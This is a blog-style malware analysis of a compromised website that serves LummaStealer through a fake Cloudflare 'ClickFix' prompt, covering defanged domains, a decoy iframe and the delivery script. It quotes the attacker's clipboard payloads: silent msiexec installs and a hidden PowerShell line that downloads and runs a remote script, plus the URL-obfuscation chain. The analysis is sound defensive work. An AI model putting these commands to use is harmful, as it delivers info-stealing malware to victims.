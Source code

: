 ```yaml
---
layout: post
title:  "LummaStealer Infected Website"
date:   2025-06-16 21:00:00 +1000
categories: malware analysis
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview - LummaStealer Malware Analysis (27th July 2025)

A look into how LummaStealer is delivered by a compromised website. 

LummaStealer has lots of different variants. Therefore, malware analysis found online varies significantly. A compromised website I've been monitoring that has pushed three different samples of LummaStealer to it's victims in the past week. Furthermore, each time you query the stage one domain the network IOCs rotate. So, it's super neat. One cool pickup that does seem consistent is. If your host in running in Russian, the malware terminates.

### ClickFix Prompt Compromised Website

I've booted up my Windows 10 VM so we can whack this through and see what happens.

Here is the Clickfix prompt on load. First, lets see how this got here? Where from? I've checked the Network tab in dev tools and found two suspicious domains that my browser has received HTTP requests from as a result of visiting this website
- api[.]brainbotfilebeatsave[.]com
- fullporner[.]com

![Stage 1](/images/cloudflare_stage1.PNG)
![Stage 2](/images/cloudflare_stage2.PNG)

So why are we sending GET requests to brainbot by visiting the website and the Clickfix prompt above? This little iframe here.

![BrainBot iframe](/images/brainbot_iframe.PNG)

We can see we sent a GET request to brainbot and as a response received some HTML/CSS/JS. The IP of brainbot is 104.21.48.1. Which is a CloudFlare proxy IP. Side note but an important one - adversaries seem to use cloudflare IPs to mask the IPs of their webservers quite frequently. Given that this attack uses a cloudflare clickfix prompt its more believable for level 0 soc analysts triaging this alert. 

![First GET Request to Brainbot](/images/get_brainbot.PNG)

Secondly we can see a GET request fullporner[.]com directly after sending a GET request to brainbot. 

![First GET Request to FullPorner](/images/fullporner_referral.PNG)

Let's inspect the script brainbot sent to us after our GET request.

First up we can see functions for browser fingerprinting and IP checking. Actually, what's really cool is the .js makes you query IP config sites yourself! 

![IP query](/images/ip_query.PNG)

Now we have the .html, .css and a bit of .js that displays the fake verification page and captures the results. 

![Cloudflare Clickfix](/images/cloudflare_html.PNG)

At the start of the .html we have an iFrame to fullporner[.]com but it doesn't look like it does anything? Now I'm almost certain this for some sort of decoy. I thought maybe brainbot was retrieving suspicious stuff from fullporner[.]com but nope. I was wrong. I guess if a SOC analyst looks at this alert they might think it's some dodgy porn page, rather than a LummaStealer loader. I'm not too sure, this is hilarious.

![iFrame](/images/full_porner.PNG)

Ok now lets get into the good stuff. 

![sjsh function](/images/sjsh_malicious_function.PNG)

We can see the function (sjsh) sends a GET request to an unknown domain. When loaded, it copies the constant 'command' to the users clipboard. Now the spuds have commented out earlier payloads. So we can infact see four different payloads! Interesting there is both a powershell and multiple msiexec payloads. This goes back to my comment earlier, there is so many different payloads for Lumma. Anyway, lets have a look at what some of the flags mean in these payload commands. 
1. ```const command = `msiexec /qn /i ${gotourl};```
- (/i) = tells msiexec to install the following package
- (/qn) = quiet mode with no UI for install
2. ```//const command = `msiexec KLSK=1101 /package ${gotourl} /promptrestart LAPBO=189 /quiet NIANS=299;```
3. ```const command = `msiexec SKSIA=1401 /package ${gotourl} /promptrestart LAPBOS=119 /passive NIANS=299;```
- (/package) = specifies .msi to install (same as /i)
- (/promptrestart) = restarts prompt at end if needed
- (/quiet) = quiet mode install
- KLSK, LAPBO, NIANS. These aren't msiexec flags. They could potentially define custom properties in the .msi file.
4. ```//const command = `powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f"`;```
- (-wh h) = WindowStyle and hidden
- (-c) = command
- ($f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1') = Creates random .ps1 script in Temp directory
- (curl ${gotourl} -o $f) = Downloads file from URL
- (-ep Bypass) = disables execution policy
- (-f) = runs file

Now we can see the payload, but no domains. So lets check out the variable ```gotourl``` is calculated because I reckon it'll give us the domain. It looks heavily obfuscated. Here is a snippet of the .js of it. Here is a step by step breakdown of it.
![Go To URL](/images/go_to_url.PNG)

1. Function takes the 'jsh' value when the function is called
2. Sends a GET request to brainbot using the following URL parameter ```/?jsc=<jsh>&f=<f>&t=<rt>```
3. If the request is successful (200) we receive a base64 string.
- ```let gotourl = hex2a(strrev(atob(hex2a(strrev(atob(xhr.response))))))```
- B64 decodes raw response (atob(xhr.response))
- Reverses the string (strrev(atob_returned_value))
- Converts string to ASCII (hex2a(strrev_returned_value))
- Now repeat again! Because there are 6 layers!
4. Now we have our domain ```window.gotourl = URL```

So now we know how this works. Lets try grab this domain. After clicking the tick box, I send a GET request to brainbot with the jsc flag. This contains all the details brainbot needs to shoot me back a domain.

![encoded jsc](/images/jsc_obfuscate.PNG)

Now this is what brainbot returned. Also side note you can see the requests to the IP check domains on the side as well.

![brainbot base64 response](/images/brainbot_response.PNG)

Lastly, lets deobfuscate. My friend ChatGPT will assist here.

![gospel output](/images/payload_url.PNG)

Plot twist! You have got to be joking. So essentially what this means is. LummaStealer is getting it's payloads from FullPorner. Now becuase it's .php we can't view it in a browser. 

When I go to paste the command in run I get the domain 'veriqloudx' not 'fullporner'. Anyway, veriq was created two days ago. Pretty neat, good rep on VT. Nice.
![VT Veriqloudx](/images/veriq_rep.PNG)

### So how was the website compromised?

After running some basic recon scans on my own environment that replicated the website but slightly different here's what I can see:
- Hosted on Fastly
- Sitting behind FlyWheel WAF
- Using WordPress version 6.8.1 (Released - April 30, 2025)
- WordPress Theme 'Gaspard'
- Managed by FlyWheel
- Using Yoast SEO 25.5 Premium WP Plugin
- Every request to any directory returns a 301 to Clickfix

Nothing sticks out that is blatantly obvious.